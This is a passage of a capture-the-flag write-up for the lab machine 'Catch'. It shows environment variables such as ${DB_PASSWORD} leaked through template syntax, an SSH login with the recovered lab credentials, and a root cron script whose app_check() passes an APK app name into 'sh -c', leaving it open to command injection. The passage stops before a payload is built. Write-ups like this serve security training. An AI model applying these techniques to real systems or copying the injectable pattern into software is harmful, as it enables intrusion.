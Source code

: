 We can try any of the above using the syntax `${VARIABLE}`.

Changing it to `${DB_PASSWORD}`  saving and reloading the page we get the database password. Later we change to `${DB_USERNAME}` we get the username.
```
${DB_PASSWORD} = s2#4Fg0_%3!
${DB_USERNAME} = will
```

## SSH as Will user
Using the credentials above we can login to SSH:
```
> ssh will@catch.htb
Password: s2#4Fg0_%3!
```

### Enumeration to privesc
Running pspy to monitor the processes and cron jobs we see:
![](images/image13.png)

The script at `/opt/mdm/verify.sh` is running as root every few minutes. Looking into the code we see the logic performing 3 checks.
One of them called `app_check()` is echoing the app name and is probably vulnerable to command injection if we modify a valid .apk file.
```bash verify.sh
...[snip]...
app_check() {
        APP_NAME=$(grep -oPm1 "(?<=<string name=\"app_name\">)[^<]+" "$1/res/values/strings.xml")
        echo $APP_NAME
        if [[ $APP_NAME == *"Catch"* ]]; then
                echo -n $APP_NAME|xargs -I {} sh -c 'mkdir {}'
                mv "$3/$APK_NAME" "$2/$APP_NAME/$4"
        else
                echo "[!] App doesn't belong to Catch Global"
                cleanup
                exit
        fi
}
...[snip]...
```

Another thing to note is the folders where the script will load the .apk:
```
...[snip]...
###################
# MDM CheckerV1.0 #
###################

DROPBOX=/opt/mdm/apk_bin
IN_FOLDER=/root/mdm/apk_bin
OUT_FOLDER=/root/mdm/certified_apps
PROCESS_BIN=/root/mdm/process_bin
...[snip]...
```
